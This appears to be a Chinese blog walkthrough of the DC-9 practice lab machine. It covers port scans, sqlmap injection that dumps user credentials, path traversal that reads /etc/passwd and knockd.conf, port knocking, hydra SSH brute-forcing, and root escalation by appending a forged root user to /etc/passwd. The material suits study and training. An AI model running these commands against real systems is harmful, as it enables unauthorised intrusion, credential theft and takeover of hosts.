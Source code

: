 ```yaml
---
layout: post
title: DC-9
subtitle: DC-9
date: 2025-07-17 11:38
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

### 信息搜集

扫描IP发现主机 `192.168.163.135`

![image.png](https://img.ghostliner.top/RMLHfa.png)

扫描端口，发现80端口开放，22端口 `filtered` 说明可能存在ssh服务，但被拒绝访问

```shell
nmap -T4 -A -p- 192.168.163.135
```

![image.png](https://img.ghostliner.top/EEZYUr.png)

扫描目录

```shell
dirsearch -u http://192.168.163.135/ -e* -i 200
```

![image.png](https://img.ghostliner.top/pizDdy.png)

`/search.php`发现搜索框，使用sqlmap测试

### 数据库爆破

使用bp抓取提交搜索的数据包，保存到`a.txt`文件中

```http
POST /results.php HTTP/1.1
Host: 192.168.163.135
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.163.135
Connection: close
Referer: http://192.168.163.135/search.php
Cookie: PHPSESSID=rn9as0edebkia6tvjbv2amr05p
Upgrade-Insecure-Requests: 1
Priority: u=0, i

search=12
```

sqlmap 测试 `search`字段是否存在注入漏洞

```shell
sqlmap.py -r C:\Computer\Desktop\a.txt -p search --dbs
```

![image.png](https://img.ghostliner.top/7YhjJ5.png)

发现存在注入漏洞，且获取到两个数据库：`Staff`、`users`

#### 爆破 Staff 数据库

获取表名
![image.png](https://img.ghostliner.top/UzD1Aj.png)

获取列名
![image.png](https://img.ghostliner.top/EuucQt.png)

获取用户名、密码
![image.png](https://img.ghostliner.top/GKW85t.png)

得到密码：`transorbital1`

#### 爆破 users 数据库

获取 `users` 数据库数据

```shell
sqlmap.py -r C:\Computer\Desktop\a.txt -p search -D users -T UserDetails -C username,password --dump
```

![image.png](https://img.ghostliner.top/eQ4HRT.png)

相关数据保存到了 `C:\Users\vmuser\AppData\Local\sqlmap\output\192.168.163.135\dump\users\UserDetails.csv` 文件中，可将其中内容复制到kali中，之后用来SSH爆破
![image.png](https://img.ghostliner.top/t6HFtP.png)

### 网站登录

通过用户：admin 密码：transorbital1 登录成功

发现 `File does not exist` 字段，猜测有文件包含漏洞

![image.png](https://img.ghostliner.top/ebtKO6.png)

测试url: <http://192.168.163.135/manage.php?file=../../../../etc/passwd> ，成功获取到数据

由于ssh服务为 `filtered` 猜测是否存在敲门

构造url: <http://192.168.163.135/welcome.php?file=../../../../../../etc/knockd.conf> ，访问成功

![image.png](https://img.ghostliner.top/IwnyAA.png)

### SSH爆破

根据文件中的端口，依次访问

```shell
nc 192.168.163.135 7469
nc 192.168.163.135 8475
nc 192.168.163.135 9842
```

再次扫描端口，发现已开放

![image.png](https://img.ghostliner.top/dufBKT.png)

将爆破 `users` 数据库得到的`.csv`文件内容复制到kali，保存为user.txt，使用vim将其中的 `,` 替换为 `:`，构造为符合hydra的格式

```vim
:%s/,/:/g
```

hydra爆破SSH

```shell
hydra -C user.txt ssh://192.168.163.135
```

![image.png](https://img.ghostliner.top/iG2yVd.png)

| 用户名       | 密码          |
| --------- | ----------- |
| chandlerb | UrAG0D!     |
| janitor   | Ilovepeepee |
| joeyt     | Passw0rd    |

janitor登陆成功，发现以下文件

![image.png](https://img.ghostliner.top/YjkmXE.png)

查看内容，疑似密码

![image.png](https://img.ghostliner.top/3WRnwe.png)

保存到文件中，并将之前的user.txt内容删去密码

```vim
:%s/:.*//g
```

爆破用户名密码

```shell
hydra -L user.txt -P pass.txt ssh://192.168.163.135
```

![image.png](https://img.ghostliner.top/7vJOMF.png)

| 用户名   | 密码          |
| ----- | ----------- |
| fredf | B4-Tru3-001 |
| joeyt | Passw0rd    |

获取到新的用户名，发现为系统管理员

![image.png](https://img.ghostliner.top/o9vgFE.png)

### root提权

登录成功，尝试 `sudo -l` 提权

![image.png](https://img.ghostliner.top/GQZeqJ.png)

发现 `/opt/devstuff/dist/test/test` 可用于提权，查看文件属性为二进制文件

![image.png](https://img.ghostliner.top/NDQyxu.png)

搜索上级目录，发现源代码文件 `test.py`

![image.png](https://img.ghostliner.top/AhWaag.png)

查看脚本内容：输入两个参数，且都为文件路径，之后读取第一个文件内容，将其追加到第二个文件中

```python
#!/usr/bin/python
import sys
if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)
else :
    f = open(sys.argv[1], "r")
    output = (f.read())
    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

利用思路：向 `/etc/passwd` 中追加root权限用户，之后切换到该用户，实现root提权

使用无密码用户提权失败，因此生成加密密码，构造有密码用户

```shell
openssl passwd -1 123
# $1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0
```

构造 `/etc/passwd` 格式，保存到临时文件，执行test脚本将其追加到 `/etc/passwd` 中

```shell
echo 'rroott:$1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0:0:0::/root:/bin/bash' >/tmp/tf
sudo ./test /tmp/tf /etc/passwd
su rroott
```

提权成功

![image.png](https://img.ghostliner.top/Il8qMj.png)

获取flag文件

![image.png](https://img.ghostliner.top/I1138g.png)
